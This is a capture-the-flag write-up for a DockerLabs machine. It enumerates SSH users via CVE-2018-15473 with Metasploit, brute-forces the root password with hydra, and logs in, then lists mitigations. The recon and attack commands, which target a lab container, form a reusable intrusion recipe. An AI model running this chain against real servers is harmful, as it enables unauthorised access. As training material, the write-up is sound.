



**platform**: DockerLabs
**machine**: BreakMySSH
**difficulty**: Easy
**os**: Linux
**attack_vector**: SSH User Enumeration (CVE-2018-15473) + Password Brute Force
**date**: 2026-09-09
**author**: jloffsec

## Summary

BreakMySSH exposes a single service: SSH on port 22, running OpenSSH 7.7. This version is vulnerable to CVE-2018-15473, a timing-based user enumeration flaw in the authentication handler. Enumeration against a username wordlist reveals two valid accounts, `bin` and `root`. The `bin` account has no interactive shell and is discarded as a target. Password brute forcing against `root` with a standard wordlist recovers valid credentials, granting direct root access over SSH with no further privilege escalation required.

## Reconnaissance

### Host discovery

```bash
arp-scan -l --resolve
arp-scan -I eth0 --localnet
```

### Port scan

```bash
nmap -sS -p- -sV -O --open --min-rate 5000 -n -oN scan 172.17.0.2
```


Only port 22/tcp is open, running OpenSSH 7.7.

### Version-specific exploit search

```bash
searchsploit openssh 7.7
```

OpenSSH 7.7 is publicly documented as vulnerable to CVE-2018-15473, a username enumeration flaw.

## Vulnerabilities

### CVE-2018-15473 — OpenSSH < 7.7 User Enumeration

OpenSSH splits authentication into two internal phases: parsing the authentication packet and checking whether the supplied username exists. When the username does not exist, the server aborts early. When the username exists, the server proceeds further before rejecting the attempt. This behavioral difference is measurable and allows an attacker to enumerate valid system usernames without any credentials.

## Exploitation

### User enumeration via Metasploit

```bash
msfconsole -q
use scanner/ssh/ssh_enumusers
set RHOSTS 172.17.0.2
set RPORT 22
set USER_FILE /usr/share/wordlists/seclists/Usernames/Names/names.txt
set THREADS 10
run
```



The account `bin` is identified as valid. It is a system account with no interactive shell, and is discarded as an authentication target.

A second pass with an additional wordlist is run to expand coverage:

```bash
set USER_FILE /path/to/custom-wordlist.txt
run
```



The account `root` is identified as valid.

### SSH password brute force

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


Valid credentials are recovered:

- **User:** `root`
- **Password:** `estrella`

### SSH login

```bash
ssh root@172.17.0.2
```



Authentication succeeds with root privileges. No further privilege escalation is required.

## Privilege Escalation

Not applicable. Root access is obtained directly through SSH authentication.

## Conclusion

### Key Takeaways

- A single exposed service can be fully compromised when the running version has a known, unauthenticated vulnerability.
- User enumeration flaws are low-severity in isolation but become critical when chained with weak credential policies.
- Testing multiple username wordlists against an enumeration vulnerability increases the yield of valid accounts before moving to credential attacks.

### Mitigation

- Upgrade OpenSSH to a patched version (>= 7.8) to remove the timing side-channel in the authentication handler.
- Enforce strong, non-dictionary passwords for all system accounts, particularly `root`.
- Disable direct root login over SSH (`PermitRootLogin no`) and require privilege escalation through a lower-privileged account.
- Implement rate limiting or account lockout on repeated failed SSH authentication attempts to slow down brute force attacks.
